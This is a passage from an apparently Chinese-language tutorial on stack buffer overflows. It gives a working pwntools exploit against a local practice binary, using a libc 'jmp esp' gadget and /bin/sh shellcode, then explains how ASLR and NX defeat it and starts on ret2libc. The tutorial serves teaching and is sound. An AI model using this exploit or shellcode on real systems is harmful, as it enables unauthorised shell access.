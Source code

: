最后攻击自动化的代码如下  

```python
# -*- coding: utf-8 -*
from pwn import *
p = process ('./anti_sof') # 运行程序
p.recvuntil ("：") # 当遇到 ':' 停止接收
# 搜索 libc.so.6，找到匹配 “jmp esp” 的汇编代码
libc = ELF ('/lib32/libc.so.6')              
jmp_esp = asm ('jmp esp') 
jmp_esp_offset = libc.search (jmp_esp).next ()
libc_base = 0xf7ded000 # libc 的加载地址
jmp_esp_addr = libc_base + jmp_esp_offset # 得到 jmp_esp_addr
buf = '1'* 28 
buf += p32 (jmp_esp_addr)
# “/bin/sh”
buf += '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
p.sendline (buf) # 发送构造后的 buf
p.interactive () # 进入交互
```

&nbsp;

#### 效果

可以看到获取了 shell，并成功创建了文件 attack.txt。这相当于是黑客通过用户名输入窗口获得了控制服务器的程序，接下来就可以为所欲为了。  

![first_attack](https://bobbybby.oss-cn-zhangjiakou.aliyuncs.com/img/stack_overlow_attack/first_attack.png)  

---

## ASLR 与 NX

有没有针对上述攻击方式的防御方法呢？  
当然有了，那就是 ASLR 与 NX，分别是随机地址加载和非执行栈。随机地址加载目的是防止系统文件加载地址泄露，由于系统文件的加载地址是随机的，那么通过 ldd 等方式只能得到当前加载位置，下一次可就不一样了。非执行栈目的是防止栈上出现了 shellcode，就是之前我们在字符串后面加上的 “/bin/sh” 命令。本身那部分栈是缓冲区，存放的是数据，本就不应该被执行，那么直接加上限制，要是 jmp 到了栈上，就认定这是非法的，然后拦截这个操作，从而无法获取 shell。  

#### 效果

可以看到没法获取 shell，程序报错终止了。

![first_anti](https://bobbybby.oss-cn-zhangjiakou.aliyuncs.com/img/stack_overlow_attack/first_anti.png)  

---

## 在 ASLR 与 NX 下攻击

那在开启了 ASLR 与 NX 后还有攻击方法吗？  
当然有了，那就是基址泄露与 ret2libc。Ret2libc 读作 “return to libc”，意思是覆盖 return 地址，使其跳转至 libc 文件中。  

**获取基址**  

由于程序需要重定位，因此存在两个表 PLT 和 GOT。GOT（Global Offset Table）称为全局偏移表，PLT（Procedure Link Table）称为程序链接表，其关系如下图。  
